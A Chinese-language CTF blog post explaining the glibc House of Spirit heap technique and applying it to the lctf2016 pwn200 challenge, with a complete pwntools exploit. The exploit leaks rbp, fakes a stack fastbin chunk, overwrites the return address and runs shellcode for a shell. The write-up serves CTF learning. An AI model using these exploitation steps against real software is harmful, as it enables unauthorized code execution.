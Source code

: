 ```yaml
---
title: 「PWN」House_of_Spirit
tags: ['CTF', 'Pwn', ]
authors: [nova]

---
```


看看`House_of_spirit`，这是一种依靠在栈上构造`fake_chunk`从而实现`(almost) arbitrary write`的技术。依赖`fastbin`

<!--truncate-->

# how2heap

整体还是比较简单的，需要注意的就是需要`16字节对齐`，且需要构造`next_fake_chunk`的`chunk_size`以绕过检查

![image-20220719220643524](https://cdn.novanoir.moe/img/image-20220719220643524.png)

![image-20220719220923354](https://cdn.novanoir.moe/img/image-20220719220923354.png)

# 实战

## lctf2016_pwn200

![checksec](https://cdn.novanoir.moe/img/image-20220719235857110.png)

保护啥也没开，想着就是直接`ret2shellcode`梭哈，但是没有那么多字节给我们栈溢出。

![400A8E](https://cdn.novanoir.moe/img/image-20220719235308594.png)

第一个`who are u?`的函数存在`Off-by-One`的漏洞，可以泄露出`400A8E`的`rbp`指向的内容（也就是父函数的`rbp`）

```python
def who_are_you(content: bytes) -> bytes:
    sh.sendafter(b'who are u?\n', content)
    sh.recv(0x30)
    return sh.recv(6).ljust(8, b'\x00')

rbp = u64(who_are_you(b'a'*0x30))
print("> rbp:", hex(rbp))
```

![RBP](https://cdn.novanoir.moe/img/image-20220719235609346.png)

函数`read_input()`返回了一个`int`，虽然`400A8E`没有使用，他也应该会存到栈上的某个位置，根据汇编得到其位于`[rbp-0x38]`的位置

![[rbp-0x38]](https://cdn.novanoir.moe/img/image-20220720000140408.png)

在`400A29`中，可以看出`dest`是指针，`buf`存在`8`字节的溢出，正好可以覆盖`dest`，而`dest`会存到`ptr`中，供之后的`menu`里的功能来`free`和`malloc`等。

![400A29](https://cdn.novanoir.moe/img/image-20220720000329530.png)

到此，我们可以初步猜想，可以在`buf`这里构造一个`fake_chunk`，然后把堆指针指向`buf`，这样我们就有了一个在栈上的`chunk`。问题是在`check_out`函数中，想要`free(ptr)`，我们必须依靠`House_of_spirit`伪造`fake_next_chunk_size`

根据计算，我们可以发现刚才的`id`正位于目前我们`buf+0x68`的位置，因此我们不妨造一个`0x50`大小的`chunk`，并把`id`设置成一个满足`house_of_spirit`的值。

![fake_next_chunk_size](https://cdn.novanoir.moe/img/image-20220720001354338.png)

如此一来，当我们执行`free(ptr)`时，便会将这个栈上的地址存到`fastbin`中，此时我们重新`malloc(0x60)`，并写入对应的`payload`更改返回地址，便可以拿到`shell`了

通过观察，我们可以发现唯一可以控制的`ret_addr`是`ptr+0x40`的这个。返回地址可控了，丢到哪里呢？还记得我们一开始`who_r_u`的时候输入了`0x30`的数据么？我们完全可以把`shellcode`写到这里。只要计算一下偏移就可以了。

![image-20220720002739429](https://cdn.novanoir.moe/img/image-20220720002739429.png)

完整EXP:

```python
from pwn import *
context(os='linux', arch='amd64', log_level='DEBUG')

sh = process(['./pwn200'])


def who_are_you(content: bytes) -> bytes:
    sh.sendafter(b'who are u?\n', content)
    sh.recv(0x30)
    return sh.recv(6).ljust(8, b'\x00')


def give_id(content: bytes):
    sh.sendafter(b'give me your id ~~?', content)


def give_money(content: bytes):
    sh.sendafter(b'give me money~', content)


def menu(index: int):
    sh.recvuntil(b"your choice : ")
    if index == 1:
        sh.sendline(b"1")
    elif index == 2:
        sh.sendline(b"2")
        sh.recvuntil(b"out~")
    elif index == 3:
        sh.sendline(b"3")
        sh.recvuntil(b'good bye~')


def check_in(length_: bytes, content: bytes):
    sh.sendlineafter(b'how long?', length_)
    sh.sendlineafter(length_ + b'\n', content)
    sh.recvuntil(b"in~")


def gdb_(time_: int = None, arg: str = None):
    gdb.attach(sh, arg)
    pause(time_)


rbp = u64(who_are_you(asm(shellcraft.sh()).ljust(0x30, b'\x00')))
# rbp = u64(who_are_you(b'a'*0x30))
print("> rbp:", hex(rbp))
give_id(b'2333')  # next_fake_chunk_size
payload = p64(0) + p64(0x60) + b'\x00'*(0x40-0x10-0x08) + p64(rbp-0xb0)
give_money(payload)

menu(2)
ret_addr = rbp - 0x50
payload = b'\x00'*0x38 + p64(ret_addr) + b'\x00'*0x0F
menu(1)
check_in(b'80', payload)
menu(3)
sh.interactive()

```

# 2014_hack.lu_oreo

哈哈哥们出了个整不明白的bug（`pwntools`接不到`Action`），后面再说吧，乐

![image-20220720204517147](https://cdn.novanoir.moe/img/image-20220720204517147.png)
